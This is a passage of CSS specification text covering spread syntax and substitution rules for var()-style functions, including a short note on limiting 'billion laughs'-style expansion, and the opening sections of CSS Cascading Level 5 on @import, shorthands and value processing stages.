> **Note:** This is different from the behavior of arbitrary substitution functions substituted into "normal" functions or properties. For example, `--colors: red, blue, green; background: linear-gradient(var(--colors));` works in the expected fashion, producing a gradient with three color stops, because normal functions don’t do this separate argument grammar parse.

This behavior can be worked around by immediately preceding an arbitrary substitution function with the **spread syntax** `...`, indicating that it must be resolved "early", before division into arguments.

> **Example:** For example, the following **will not work**:
>
> ```
> .invalid-if {
>   --if-clause: media(width >= 600px): blue;
>   color: if(var(--if-clause); else: green;);
> }
> ```
>
> The `if()` function entirely fails to parse according to its argument grammar: there’s no `:` character separating the test from the value in the first branch.
>
> To get the desired behavior of "spreading" the variable into the function’s arguments, use `...`':
>
> ```
> .valid-if {
>   --if-clause: media(width >= 600px): blue;
>   color: if(...var(--if-clause); else: green;);
> }
> ```

The spread syntax is three distinct `<delim-token>`s with the value `"."`, all of which must not contain any whitespace between them, or between the group and the subsequent arbitrary substitution function.

> **Example:** That is, `...var(--foo)` is a valid use of the spread syntax, but `... var(--foo)` is not, nor is `. . .var(--foo)`.
>
> The latter usages will result in the arbitrary substitution function being evaluated at the normal time, *after* the argument grammar has been applied, and the period characters being part of the function’s value.

> **Note:** The spread syntax is only used *within* an arbitrary substitution function’s value, as it’s only referenced by the substitution algorithm when parsing an arbitrary substitution function. Using it outside of that, such as in `width: ...var(--sidebar-width);`, is not recognized as an early invocation; instead, the periods are just part of the property’s value, unrelated to the `var()` function, and would in this case make the `width` property invalid. (This is similar to JavaScript, where this syntax was borrowed from, where `[1, ...arr, 5]` is valid, but `var x = ...arr;` is not.)

To **substitute early-invoked functions** in a sequence of component values *values*:

1. For each arbitrary substitution function *func* in *values* (ordered via a depth-first pre-order traversal) using the spread syntax that is not nested in the contents of another arbitrary substitution function:

  1. Substitute early-invoked functions in *func*’s contents, and let *early result* be the result.
  2. If *early result* contains the guaranteed-invalid value, replace *func* in *values* with the guaranteed-invalid value and continue.
  3. Parse *early result* acccording to *func*’s argument grammar. If this returns failure, replace *func* in values with the guaranteed-invalid value and continue; otherwise, let *arguments* be the result.
  4. Replace an arbitrary substitution function for *func*, given *arguments*, as defined by that function. Let *result* be the returned list of component values.
  5. If *result* contains the guaranteed-invalid value, replace *func* in *values* with the guaranteed-invalid value. Otherwise, replace *func* in *values* with *result*.
2. Return *values*.

#### Resolving in Properties {#css-values-5:resolve-property}

Unless otherwise specified, arbitrary substitution functions can be used in place of any part of any property’s value (including within other functional notations); and are not valid in any other context.

> **Issue:** Should any of these functions be valid in contexts outside of properties?

> **Example:** For example, the following code incorrectly attempts to use a variable as a property name:
>
> ```
> .foo {
>   --side: margin-top;
>   var(--side): 20px;
> }
> ```
>
> This is *not* equivalent to setting `margin-top: 20px;`. Instead, the second declaration is simply thrown away as a syntax error for having an invalid property name.

If a property value contains one or more arbitrary substitution functions, and all of those functions are themselves syntactically valid according to their argument grammars, the entire value’s grammar must be assumed to be valid at parse time.

Arbitrary substitution functions are substituted during style computation, before any other value transformations or introspection can occur. If a property, after property replacement, does not match its declared grammar, the declaration is invalid at computed-value time.

> **Note:** Since arbitrary substitution functions resolve at computed value time, if the resulting value after substitution is invalid, the property falls back (essentially) to `unset` behavior, rather than falling back to an earlier value in the cascade the way declarations invalid at parse time do. See [Invalid Substitution](#css-values-5:invalid-substitution).

If a property value, after property replacement, contains only a single CSS-wide keyword (and possibly whitespace/comments), its value is determined as if that keyword were its specified value all along.

> **Example:** For example, the following usage is fine from a syntax standpoint, but results in nonsense when the variable is substituted in:
>
> ```
> :root { --looks-valid: 20px; }
> p { background-color: var(--looks-valid); }
> ```
>
> Since `20px` is an invalid value for `background-color`, the property becomes invalid at computed-value time, and instead resolves to `transparent` (the initial value for `background-color`).
>
> If the property was one that’s inherited by default, such as `color`, it would compute to the inherited value rather than the initial value.

> **Example:** While a `var()` function can’t get a CSS-wide keyword from the custom property itself—​if you tried to specify that, like `--foo: initial;`, it would just trigger [explicit defaulting](#css-cascade-5:defaulting-keywords) for the custom property—​it can have a CSS-wide keyword in its fallback:
>
> ```
> p { color: var(--does-not-exist, initial); }
> ```
>
> In the above code, if the `--does-not-exist` property didn’t exist or is invalid at computed-value time, the `var()` will instead substitute in the `initial` keyword, making the property behave as if it was originally `color: initial`. This will make it take on the document’s initial `color` value, rather than defaulting to inheritance, as it would if there were no fallback.

To **replace substitution functions in a property** *prop*:

1. Substitute arbitrary substitution functions in *prop*’s value, given «"property", *prop*’s name» as the substitution context. Let *result* be the returned component value sequence.
2. If *result* contains the guaranteed-invalid value, *prop* is invalid at computed-value time; return.
3. Parse *result* according to *prop*’s grammar. If this returns failure, *prop* is invalid at computed-value time; return.
4. Otherwise, replace *prop*’s value with the parsed result.

> **Note:** that substitution takes place at the level of CSS tokens [css-syntax-3], not at a textual level; you can’t build up a single token where part of it is provided by a variable:
>
> ```
> .foo {
>   --gap: 20;
>   margin-top: var(--gap)px;
> }
> ```
>
> This is *not* equivalent to setting `margin-top: 20px;` (a length). Instead, it’s equivalent to `margin-top: 20 px;` (a number followed by an ident), which is simply an invalid value for the `margin-top` property. Note, though, that `calc()` can be used to validly achieve the same thing, like so:
>
> ```
> .foo {
>   --gap: 20;
>   margin-top: calc(var(--gap) * 1px);
> }
> ```
>
> This also implies that the post-substitution value might not be directly serializable as-is. Here’s a similar example to the preceding:
>
> ```
> .foo {
>   --gap: 20;
>   --not-px-length: var(--gap)px;
> }
> ```
>
> The serialization of the computed (post-substitution) value of `--not-px-length` is **not** `20px`, because that would parse back as the single combined dimension; instead, it will serialize with a comment between the two tokens, like `px`, to enforce that they are separate tokens even when re-parsing.

#### Invalid Substitution {#css-values-5:invalid-substitution}

When property replacement results in a property’s value containing the guaranteed-invalid value, this makes the declaration **invalid at computed-value time**. When this happens, the computed value is one of the following depending on the property’s type:

**The property is a non-registered custom property The property is a registered custom property with universal syntax**

: The computed value is the guaranteed-invalid value.

**Otherwise**

: Either the property’s inherited value or its initial value depending on whether the property is inherited or not, respectively, as if the property’s value had been specified as the `unset` keyword.

> **Example:** For example, in the following code:
>
> ```
> :root { --not-a-color: 20px; }
> p { background-color: red; }
> p { background-color: var(--not-a-color); }
> ```
>
> the <p> elements will have transparent backgrounds (the initial value for `background-color`), rather than red backgrounds. The same would happen if the custom property itself was unset, or contained an invalid `var()` function.
>
> Note the difference between this and what happens if the author had just written `background-color: 20px` directly in their stylesheet - that would be a normal syntax error, which would cause the rule to be discarded, so the `background-color: red` rule would be used instead.

> **Note:** The invalid at computed-value time concept exists because arbitrary substitution functions can’t "fail early" like other syntax errors can, so by the time the user agent realizes a property value is invalid, it’s already thrown away the other cascaded values.

#### Substitution in Shorthand Properties {#css-values-5:substitution-in-shorthands}

Arbitrary substitution functions produce some complications when parsing shorthand properties into their component longhands, and when serializing shorthand properties *from* their component longhands.

If a shorthand property contains an arbitrary substitution function in its value, the longhand properties it’s associated with must instead be filled in with a special, unobservable-to-authors **pending-substitution value** that indicates the shorthand contains an arbitrary substitution function, and thus the longhand’s value can’t be determined until after substituted.

This value must then be cascaded as normal, and at computed-value time, after substitution, the shorthand must be parsed and the longhands must be given their appropriate values at that point.

> **Note:** When a shorthand is written without an arbitrary substitution function, it is parsed and separated out into its component longhand properties at parse time; the longhands then participate in the cascade, with the shorthand property more or less discarded. When the shorthand contains a `var()`, however, this can’t be done, as the `var()` could be substituted with anything.

Pending-substitution values must be serialized as the empty string, if an API allows them to be observed.

---

Shorthand properties are serialized by gathering the values of their component longhand properties, and synthesizing a value that will parse into the same set of values.

If all of the component longhand properties for a given shorthand are pending-substitution values from the same original shorthand value, the shorthand property must serialize to that original (arbitrary substitution function-containing) value.

Otherwise, if any of the component longhand properties for a given shorthand are pending-substitution values, or contain arbitrary substitution functions of their own that have not yet been substituted, the shorthand property must serialize to the empty string.

#### Safely Handling Overly-Long Substitution {#css-values-5:long-substitution}

Naively implemented, some arbitrary substitution functions (such as `var()`) can be used in a variation of the "billion laughs attack":

> **Example:** ```
> .foo {
>   --prop1: lol;
>   --prop2: var(--prop1) var(--prop1);
>   --prop3: var(--prop2) var(--prop2);
>   --prop4: var(--prop3) var(--prop3);
>   /* etc */
> }
> ```
>
> In this short example, `--prop4`’s computed value is `lol lol lol lol lol lol lol lol`, containing 8 copies of the original `lol`. Every additional level added to this doubles the number of identifiers; extending it to a mere 30 levels, the work of a few minutes by hand, would make `--prop30` contain *nearly a billion instances* of the identifier.

To avoid this sort of attack, UAs must impose a UA-defined limit on the allowed length of the token stream that an arbitrary substitution function expands into. If an arbitrary substitution function would expand into a longer token stream than this limit, it instead is replaced with the guaranteed-invalid value.

This specification does not define what size limit should be imposed. However, since there are valid use-cases for custom properties that contain a kilobyte or more of text, it’s recommended that the limit be set relatively high.

> **Note:** The general principle that UAs are allowed to violate standards due to resource constraints is still generally true here; a UA might, separately, have limits on how long of a custom property they can support, or how large of an identifier they can support. This section calls out this attack specifically because of its long history, and the fact that it can be done without any of the pieces *seeming* to be too large on first inspection.

### Appendix B: Boolean Logic {#css-values-5:boolean-logic}

In order to accommodate future extensions of CSS, `<boolean-expr[]>` productions generally interpret their `<general-enclosed>` grammar branch as unknown, and their boolean logic is resolved using 3-value Kleene logic. In some cases (such as `@supports`), <general-enclosed> is instead defined as false; in which case the logic devolves to standard boolean algebra.

3-value boolean logic is applied recursively to a boolean condition *test* as follows:

- A leaf-level *test* resolves to true, false, or unknown, as defined by the relevant specification.
- `not test` evaluates to true if its contained *test* is false, false if it’s true, and unknown if it’s unknown.
- Multiple *test*s connected with `and` evaluate to true if *all* of those *test*s are true, false if *any* of them are false, and unknown otherwise (i.e. if at least one unknown, but no false).
- Multiple *test*s connected with `or` evaluate to true if *any* of those *test*s are true, false if *all* of them are false, and unknown otherwise (i.e. at least one unknown, but no true).

If a “top-level” `<boolean-expr[]>` is unknown, and the containing context doesn’t otherwise define how to handle unknown conditions, it evaluates to false.

> **Note:** That is, unknown doesn’t “escape” a 3-value boolean expression unless explicitly handled, similar to how `NaN` doesn’t “escape” a top-level calculation).

---

## CSS Cascading and Inheritance Module Level 5 {#css-cascade-5}

- **Shortname:** `css-cascade-5`
- **Editor's Draft:** [https://drafts.csswg.org/css-cascade-5/](https://drafts.csswg.org/css-cascade-5/)
- **Published TR:** [https://www.w3.org/TR/css-cascade-5/](https://www.w3.org/TR/css-cascade-5/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-04-13

### 1.  Introduction {#css-cascade-5:intro}

CSS defines a finite set of parameters, called **properties**, that direct the rendering of a document. Each property has a name (e.g., `color`, `font-size`, or `border-style`), a value space (e.g., `<color>`, `<length-percentage>`, `[ solid | dashed | dotted | … ]`), and a defined behavior on the rendering of the document. Properties values are assigned to various parts of the document via property declarations, which assign the property a value (e.g. `red`, `12pt`, `dotted`) for the associated element or box.

One of the fundamental design principles of CSS is cascading, which allows several style sheets to influence the presentation of a document. When different declarations try to set a value for the same element/property combination, the conflicts must somehow be resolved.

The opposite problem arises when no declarations try to set a value for an element/property combination. In this case, a value is be found by way of inheritance or by looking at the property’s initial value.

The cascading and [defaulting](#css-cascade-5:defaulting) process takes a set of declarations as input, and outputs a specified value for each property on each element.

The rules for finding the specified value for all properties on all elements in the document are described in this specification. The rules for finding the specified values in the page context and its margin boxes are described in [css-page-3].

#### 1.1.  Module Interactions {#css-cascade-5:placement}

*This section is normative.*

This module replaces and extends the rules for assigning property values, cascading, and inheritance defined in [CSS2] chapter 6.

Other CSS modules may expand the definitions of some of the syntax and features defined here. For example, the Media Queries Level 4 specification, when combined with this module, expands the definition of the `<media-query>` value type as used in this specification.

For the purpose of this specification, text nodes are treated as element children of their associated element, and possess the full set of properties; since they cannot be targeted by selectors all of their computed values are assigned by [defaulting](#css-cascade-5:defaulting).

### 2.  Importing Style Sheets: the `@import` rule {#css-cascade-5:at-import}

The **@import** rule allows users to import style rules from other style sheets. If an `@import` rule refers to a valid stylesheet, user agents must treat the contents of the stylesheet as if they were written in place of the `@import` rule, with two exceptions:

- If a feature (such as the `@namespace` rule) *explicitly* defines that it only applies to a particular stylesheet, and not any imported ones, then it doesn’t apply to the imported stylesheet.
- If a feature relies on the relative ordering of two or more constructs in a stylesheet (such as the requirement that `@namespace` rules must not have any other rules other than `@import` preceding it), it only applies between constructs in the same stylesheet.

> **Example:** For example, declarations in style rules from imported stylesheets interact with the cascade as if they were written literally into the stylesheet at the point of the `@import`.

Any `@import` rules must precede all other valid at-rules and style rules in a style sheet (ignoring `@charset`, `@supports-condition`, and [`@layer` statement](#css-cascade-5:layer-empty) rules) and must not have any other valid at-rules or style rules between it and previous `@import` rules, or else the `@import` rule is invalid. The syntax of `@import` is:

```css
@import [ <url> | <string> ]
        [ layer | layer(<layer-name>) ]?
        <import-conditions> ;

<import-conditions> = [ supports( [ <supports-condition> | <declaration> ] ) ]?
                     <media-query-list>?
```

where:

- the `<url>` or `<string>` gives the URL of the style sheet to be imported.
- the optional `layer` keyword or `layer()` function assigns the contents of the style sheet into its own anonymous cascade layer or into the named cascade layer.

  The layer is added to the [layer order](#css-cascade-5:layer-ordering) even if the import fails to load the stylesheet, but is subject to any import conditions (just as if declared by an `@layer` rule wrapped in the appropriate conditional group rules).
- the optional `<import-conditions>` states the import conditions under which it applies.

> **Example:** The following [conditional `@import` rule](#css-cascade-5:conditional-import) only loads the style sheet when the UA [supports](#css-conditional-3:support-definition) `display: flex`, and only applies the style sheet on a [handheld](#css2:media-types) device with a [maximum viewport width](#mediaqueries-5:width) of 400px.
>
> ```
> @import url("narrow.css") supports(display: flex) handheld and (max-width: 400px);
> ```

> **Example:** The following layer imports load the style sheets into the `framework.component` layer, and an un-named layer, respectively:
>
> ```
> @import url("tabs.css") layer(framework.component);
> @import url("override.css") layer;
> ```

If a `<string>` is provided, it must be interpreted as a `<url>` with the same value.

> **Example:** The following lines are equivalent in meaning and illustrate both `@import` syntaxes (one with `url()` and one with a bare string):
>
> ```css
> @import "mystyle.css";
> @import url("mystyle.css");
> ```

#### 2.1.  Conditional `@import` Rules {#css-cascade-5:conditional-import}

**Import conditions** allow the import to be media– or feature-support–dependent. In the absence of any import conditions, the import is unconditional. (Specifying all for the `<media-query-list>` has the same effect.) If the import conditions do not match, the rules in the imported stylesheet do not apply, exactly as if the imported stylesheet were wrapped in `@media` and/or `@supports` blocks with the given conditions.

> **Example:** The following rules illustrate how `@import` rules can be made media-dependent:
>
> ```css
> @import url("fineprint.css") print;
> @import url("bluish.css") projection, tv;
> @import url("narrow.css") handheld and (max-width: 400px);
> ```

User agents may therefore avoid fetching a conditional import as long as the import conditions do not match. Additionally, if a `<supports-condition>` blocks the application of the imported style sheet, the UA *must not* fetch the style sheet (unless it is loaded through some other link) and *must* return null for the import rule’s CSSImportRule.styleSheet value (even if it is loaded through some other link).

> **Example:** The following rule illustrates how an author can provide fallback rules for legacy user agents without impacting network performance on newer user agents:
>
> ```css
> @import url("fallback-layout.css") supports(not (display: flex));
> @supports (display: flex) {
>   ...
> }
> ```

The import conditions are given by `<media-query-list>`, which is parsed and interpreted as a media query list, and `<supports-condition>`, is parsed and interpreted as a supports query. If a `<declaration>` is given in place of a <supports-condition>, it must be interpreted as a `<supports-decl>` (i.e. the extra set of parentheses is implied) and treated as a <supports-condition>.

> **Example:** For example, the following two lines are equivalent:
>
> ```css
> @import "mystyle.css" supports(display: flex);
> @import "mystyle.css" supports((display: flex));
> ```

The evaluation and full syntax of the import conditions are defined by the [Media Queries](#mediaqueries-5) [MEDIAQ] and [CSS Conditional Rules](#css-conditional-5) [CSS-CONDITIONAL-3] specifications.

#### 2.2.  Processing Stylesheet Imports {#css-cascade-5:import-processing}

When the same style sheet is imported or linked to a document in multiple places, user agents must process (or act as though they do) each link as though the link were to an independent style sheet.

> **Note:** This does not place any requirements on resource fetching, only how the style sheet is reflected in the CSSOM and used in specs such as this one. Assuming appropriate caching, it is perfectly appropriate for a UA to fetch a style sheet only once, even though it’s linked or imported multiple times.

The cascade origin of an imported style sheet is the cascade origin of the style sheet that imported it.

The environment encoding of an imported style sheet is the encoding of the style sheet that imported it. [css-syntax-3]

#### 2.3.  Content-Type of CSS Style Sheets {#css-cascade-5:content-type}

The processing of imported style sheets depends on the actual type of the linked resource:

- If the resource does not have Content-Type metadata, the type is treated as `text/css`.
- If the host document is in quirks mode, and the host document’s origin is same origin with the linked resource response’s URL’s origin, the type is treated as `text/css`.
- Otherwise, the type is determined from its Content-Type metadata.

If the linked resource’s type is `text/css`, it must be interpreted as a CSS style sheet. Otherwise, it must be interpreted as a network error.

### 3.  Shorthand Properties {#css-cascade-5:shorthand}

Some properties are **shorthand properties**, meaning that they allow authors to specify the values of several properties with a single property. A shorthand property sets all of its **longhand sub-properties**, exactly as if expanded in place.

When values are omitted from a shorthand form, unless otherwise defined, each “missing” sub-property is assigned its initial value.

> **Note:** This means that a shorthand property declaration always sets *all* of its sub-properties, even those that are not explicitly set. Carelessly used, this might result in inadvertently resetting some sub-properties. Carefully used, a shorthand can guarantee a “blank slate” by resetting sub-properties inadvertently cascaded from other sources.
>
> For example, writing `background: green` rather than `background-color: green` ensures that the background color overrides any earlier declarations that might have set the background to an image with `background-image`.

> **Example:** For example, the CSS Level 1 `font` property is a shorthand property for setting `font-style`, `font-variant`, `font-weight`, `font-size`, `line-height`, and `font-family` all at once. The multiple declarations of this example:
>
> ```css
> h1 {
>   font-weight: bold;
>   font-size: 12pt;
>   line-height: 14pt;
>   font-family: Helvetica;
>   font-variant: normal;
>   font-style: normal;
> }
> ```
>
> can therefore be rewritten as
>
> ```css
> h1 { font: bold 12pt/14pt Helvetica }
> ```
>
> As more `font` sub-properties are introduced into CSS, the shorthand declaration resets those to their initial values as well.

In some cases, a shorthand might have different syntax or special keywords that don’t directly correspond to values of its sub-properties. (In such cases, the shorthand will explicitly define the expansion of its values.)

In other cases, a property might be a **reset-only sub-property** of the shorthand: Like other sub-properties, it is reset to its initial value by the shorthand when unspecified, but the shorthand might not include syntax to set the sub-property to any of its other values. For example, the `border` shorthand resets `border-image` to its initial value of `none`, but has no syntax to set it to anything else. [css-backgrounds-3]

If a shorthand is specified as one of the [CSS-wide keywords](#css-values-4:common-keywords) [css-values-3], it sets all of its sub-properties to that keyword, including any that are reset-only sub-properties. (Note that these keywords cannot be combined with other values in a single declaration, not even in a shorthand.)

Declaring a shorthand property to be `!important` is equivalent to declaring all of its sub-properties to be `!important`.

#### 3.1.  Property Aliasing {#css-cascade-5:aliasing}

Properties sometimes change names after being supported for a while, such as vendor-prefixed properties being standardized. The original name still needs to be supported for compatibility reasons, but the new name is preferred. To accomplish this, CSS defines two different ways of “aliasing” old syntax to new syntax.

****legacy name aliases****

: When the old property’s value syntax is identical to that of the new property, the two names are aliased with an operation on par with case-mapping: at parse time, the old property is converted into the new property. This conversion also applies in the CSSOM, both for string arguments and property accessors: requests for the old property name transparently transfer to the new property name instead.

  > **Example:** For example, if `old-name` is a legacy name alias for `new-name`, `getComputedStyle(el).oldName` will return the computed style of the `newName` property, and `el.style.setProperty("old-name", "value")` will set the `new-name` property to `"value"`.

****legacy shorthands****

: When the old property has a distinct syntax from the new property, the two names are aliased using the shorthand mechanism. These shorthands are defined to be legacy shorthands, and their use is *deprecated*. They otherwise behave exactly as regular shorthands, except that the CSSOM will not use them when serializing declarations. [CSSOM]

  > **Example:** For example, the `page-break-*` properties are legacy shorthands for the `break-*` properties (see [CSS Fragmentation 3 § 3.4 Page Break Aliases: the page-break-before, page-break-after, and page-break-inside properties](#css-break-4:page-break-properties)).
  >
  > Setting `page-break-before: always` expands to `break-before: page` at parse time, like other shorthands do. Similarly, if `break-before: page` is set, calling `getComputedStyle(el).pageBreakBefore` will return `"always"`. However, when serializing a style block (see [CSSOM § 6.7.2 Serializing CSS Values](#cssom-1:serializing-css-values)), the `page-break-before` property will never be chosen as the shorthand to serialize to, regardless of whether it or `break-before` was specified; instead, `break-before` will always be chosen.

#### 3.2.  Resetting All Properties: the `all` property {#css-cascade-5:all-shorthand}

| Field | Value |
| --- | --- |
| Name: | **all** |
| [Value:](#css-values-4:value-defs) | initial \| inherit \| unset \| revert \| revert-layer \| revert-rule |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

The `all` property is a shorthand that resets *all* CSS properties except `direction` and `unicode-bidi`. It only accepts the [CSS-wide keywords](#css-values-4:common-keywords). It does not reset custom properties [css-variables-1].

> **Note:** The excepted CSS properties `direction` and `unicode-bidi` are actually markup-level features, and [should not be set in the author’s style sheet](#css-writing-modes-4:text-direction). (They exist as CSS properties only to style document languages not supported by the UA.) Authors should use the appropriate markup, such as HTML’s `dir` attribute, instead. [css-writing-modes-3]

> **Example:** For example, if an author specifies `all: initial` on an element, it will block all inheritance and reset all properties, as if no rules appeared in the author, user, or user-agent levels of the cascade.
>
> This can be useful for the root element of a "widget" included in a page, which does not wish to inherit the styles of the outer page. Note, however, that any "default" style applied to that element (such as, e.g. `display: block` from the UA style sheet on block elements such as `<div>`) will also be blown away.

### 4.  Value Processing {#css-cascade-5:value-stages}

Once a user agent has parsed a document and constructed a document tree, it must assign, to every element in the flat tree, and correspondingly to every box in the formatting structure, a value to every property that applies to the target media type.

The final value of a CSS property for a given element or box is the result of a multi-step calculation:

1. First, all the declared values applied to an element are collected, for each property on each element. There may be zero or many declared values applied to the element.
2. Cascading yields the cascaded value. There is at most one cascaded value per property per element.
3. Defaulting yields the specified value. Every element has exactly one specified value per property.
4. Resolving value dependencies yields the computed value. Every element has exactly one computed value per property.
5. Formatting the document yields the used value. An element only has a used value for a given property if that property applies to the element.
6. Finally, the used value is transformed to the actual value based on constraints of the display environment. As with the used value, there may or may not be an actual value for a given property on an element.

Elements that are not connected or are not part of the document’s flattened element tree do not participate in CSS value processing, and do not have declared, cascaded, specified, computed, used, or actual values, even if they potentially have style declarations assigned to them (for example, by a `style` attribute).

#### 4.1.  Declared Values {#css-cascade-5:declared}

Each property declaration [applied to an element](#css-cascade-5:filtering) contributes a **declared value** for that property associated with the element. See [Filtering Declarations](#css-cascade-5:filtering) for details.

These values are then processed by the cascade to choose a single “winning value”.

##### 4.1.1.  Value Aliasing {#css-cascade-5:value-aliasing}

Some property values have **legacy value aliases**: at parse time, the legacy syntax is converted into the new syntax, resulting in a declared value different from the parsed input. These aliases are typically used for handling legacy compatibility requirements, such as converting vendor-prefixed values to their standard equivalents.

#### 4.2.  Cascaded Values {#css-cascade-5:cascaded}

The **cascaded value** represents the result of the cascade: it is the declared value that wins the cascade (is sorted first in the output of the cascade). If the output of the cascade is an empty list, there is no cascaded value.

#### 4.3.  Specified Values {#css-cascade-5:specified}

The **specified value** is the value of a given property that the style sheet authors intended for that element. It is the result of putting the cascaded value through the [defaulting](#css-cascade-5:defaulting) processes, guaranteeing that a specified value exists for every property on every element.

In many cases, the specified value is the cascaded value. However, if there is no cascaded value at all, the specified value is [defaulted](#css-cascade-5:defaulting). The CSS-wide keywords are handled specially when they are the cascaded value of a property, setting the specified value as required by that keyword, see [§ 7.3 Explicit Defaulting](#css-cascade-5:defaulting-keywords).

#### 4.4.  Computed Values {#css-cascade-5:computed}

The **computed value** is the result of resolving the specified value as defined in the “Computed Value” line of the property definition table, generally absolutizing it in preparation for inheritance.

> **Note:** The computed value is the value that is transferred from parent to child during inheritance. For historical reasons, it is not necessarily the value returned by the `getComputedStyle()` function, which sometimes returns used values. [CSSOM] Furthermore, the computed value is an abstract data representation: their definitions reflect that data representation, not how that data is serialized. For example, serialization rules often allow omitting certain values which are implied during parsing; but those values are nonetheless part of the computed value.

> **Example:** A specified value can be either absolute (i.e., not relative to another value, as in `red` or `2mm`) or relative (i.e., relative to another value, as in `auto`, `2em`). Computing a relative value generally absolutizes it:
>
> - values with relative units (`em`, `ex`, `vh`, `vw`) must be made absolute by multiplying with the appropriate reference size
> - certain keywords (e.g., `smaller`, `bolder`) must be replaced according to their definitions
> - percentages on some properties must be multiplied by a reference value (defined by the property)
> - valid relative URLs must be resolved to become absolute.
>
> See examples (f), (g) and (h) in the [table below](#css-cascade-5:stages-examples).

> **Note:** In general, the computed value resolves the specified value as far as possible without laying out the document or performing other expensive or hard-to-parallelize operations, such as resolving network requests or retrieving values other than from the element and its parent.

The computed value exists even when the property does not apply. However, some properties may change how they determine the computed value based on whether the property applies to the element.

#### 4.5.  Used Values {#css-cascade-5:used}

The **used value** is the result of taking the computed value and completing any remaining calculations to make it the absolute theoretical value used in the formatting of the document.

> **Example:** For example, a declaration of `width: auto` can’t be resolved into a length without knowing the layout of the element’s ancestors, so the computed value is `auto`, while the used value is an absolute length, such as `100px`. [CSS2]

> **Example:** As another example, a `<div>` might have a computed `break-before` value of `auto`, but acquire a used `break-before` value of `page` by propagation from its first child. [css-break-3]

If a property does not apply to this element or box type then it has no used value for that property.

> **Example:** For example, the `flex` property has no used value on elements that aren’t flex items.

##### 4.5.1.  Applicable Properties {#css-cascade-5:applies-to}

If a property does not **apply to** an element or box type—​as noted in its “Applies to” line—​this means it does not directly take effect on that type of box or element.

> **Note:** A property that does not apply can still have *indirect* formatting effects if its computed value affects the computation of other properties that do apply; and of course its computed value, which always exists, can still inherit to descendants and take effect on them.

> **Example:** Even though `writing-mode` and `text-orientation` do not apply to table rows (they do not affect how the table row or its children are laid out), setting them on such boxes will still affect the calculation of font relative units such as `ch`, and thus possibly any property that takes a `<length>`.

> **Example:** Setting `text-transform` on an HTML `p` element (which is `display: block` by default) will have an effect, even though `text-transform` only applies to inline boxes, because the property inherits into the paragraph’s anonymous root inline box and applies to the text it contains.

> **Note:** A property defined to apply to “all elements” applies to all elements and display types, but not necessarily to all pseudo-element types, since pseudo-elements often have their own specific rendering models or other restrictions. The `::before` and `::after` pseudo-elements, however, are defined to generate boxes almost exactly like normal elements and are therefore defined accept all properties that apply to “all elements”. See [CSS-PSEUDO-4] for more information about pseudo-elements.

#### 4.6.  Actual Values {#css-cascade-5:actual}

A used value is in principle ready to be used, but a user agent may not be able to make use of the value in a given environment. For example, a user agent may only be able to render borders with integer pixel widths and may therefore have to approximate the used width. Also, the font size of an element may need adjustment based on the availability of fonts or the value of the `font-size-adjust` property. The **actual value** is the used value after any such adjustments have been made.

> **Note:** By probing the actual values of elements, much can be learned about how the document is laid out. However, not all information is recorded in the actual values. For example, the actual value of the `page-break-after` property does not reflect whether there is a page break or not after the element. Similarly, the actual value of `orphans` does not reflect how many orphan lines there is in a certain element. See examples (j) and (k) in the [table below](#css-cascade-5:stages-examples).

#### 4.7.  Examples {#css-cascade-5:stages-examples}

|  | Property | Winning declaration | Cascaded value | Specified value | Computed value | Used value | Actual value |
| --- | --- | --- | --- | --- | --- | --- | --- |
| (a) | `text-align` | `text-align: left` | `left` | `left` | `left` | `left` | `left` |
| (b) | `border-top-width`, `border-right-width`, `border-bottom-width`, `border-left-width` | `border-width: inherit` | `inherit` | `4.2px` | `4.2px` | `4.2px` | `4px` |
| (c) | `width` | (none) | (none) | `auto` (initial value) | `auto` | `120px` | `120px` |
| (d) | `list-style-position` | `list-style-position: inherit` | `inherit` | `inside` | `inside` | `inside` | `inside` |
| (e) | `list-style-position` | `list-style-position: initial` | `initial` | `outside` (initial value) | `outside` | `outside` | `outside` |
| (f) | `font-size` | `font-size: 1.2em` | `1.2em` | `1.2em` | `14.1px` | `14.1px` | `14px` |
| (g) | `width` | `width: 80%` | `80%` | `80%` | `80%` | `354.2px` | `354px` |
| (h) | `width` | `width: auto` | `auto` | `auto` | `auto` | `134px` | `134px` |
| (i) | `height` | `height: auto` | `auto` | `auto` | `auto` | `176px` | `176px` |
| (j) | `page-break-after` | (none) | (none) | `auto` (initial value) | `auto` | `auto` | `auto` |
| (k) | `orphans` | `orphans: 3` | `3` | `3` | `3` | `3` | `3` |

#### 4.8.  Per-Fragment Value Processing {#css-cascade-5:fragments}

Certain CSS features can interfere with value processing on a per-fragment basis. See for example [CSS Pseudo-Elements 4 § 2.1.3 Inheritance and the ::first-line Pseudo-element](#css-pseudo-4:first-line-inheritance) which alters inheritance for fragments within the `::first-line` pseudo-element. In such cases, where individual fragments are given different specified values, any values that resolve based on the computed value of other properties (such as `currentcolor` or `em` units) are resolved per box fragment. Subsequent value processing proceeds as normal in each fragment.

APIs that assume a singular value per box (rather than per box fragment) must ignore the effects of non-tree-abiding pseudo-elements. (For example, `::first-line` styles have no effect on the value returned by `getComputedStyle()`.)

> **Example:** For example, given the following markup:
>
> ```
> <div><span>First line<br />Second line</span></div>
> <div><span>First line</span></div>
> <div>First line<br><span>Second line</span></div>
> <style>
> div { color: blue; }
> div::first-line { color: yellow; }
> span { border: thin solid currentcolor; }
> </style>
> ```
>
> In each `div`, the “First line” text is yellow and the “Second line” text is blue; the border for each fragment of the `span`s that wrap each line matches that color.
>
> However, `getComputedStyle()` on all three of the spans will return `"blue"` for `border-color`, because the effects of a `::first-line` pseudo-element are ignored for APIs that aren’t fragment-aware.

### 5.  Filtering {#css-cascade-5:filtering}

In order to find the declared values, implementations must first identify all declarations that apply to each element. A declaration applies to an element if:

- It belongs to a style sheet that currently applies to this document.
- It is not qualified by a conditional rule [CSS-CONDITIONAL-3] with a false condition.
- It belongs to a style rule whose selector matches the element. [SELECT] (Taking [scoping](#selectors-4:scoping) into account, if necessary.)
- It is syntactically valid: the declaration’s property is a known property name, and the declaration’s value matches the syntax for that property.

The values of the declarations that apply form, for each property on each element, a list of declared values. The next section, the cascade, prioritizes these lists.

### 6.  Cascading {#css-cascade-5:cascading}

